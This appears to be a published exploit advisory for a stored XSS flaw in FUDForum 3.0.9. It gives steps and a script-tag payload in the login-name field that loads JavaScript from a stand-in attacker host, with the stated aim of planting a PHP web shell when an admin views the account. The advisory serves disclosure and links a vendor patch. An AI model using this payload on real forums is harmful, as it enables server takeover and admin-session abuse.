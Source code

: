 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [via Forum]

- Date                  : 11/8/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : TBD
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the "nlogin" parameter. This may result in remote code execution. An attacker can use a user account to fully compromise the system using a POST request. When the admin visits the user information the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server.

Notes: 

1. Register an account and log in to the forum.

2. Go to the user control panel. -> Account Settings -> change login

3. Insert javascript payload <script/src="http://attacker.machine/fud.js"></script>

4. When the admin visits the user information the payload will fire, uploading a php shell on the remote system.

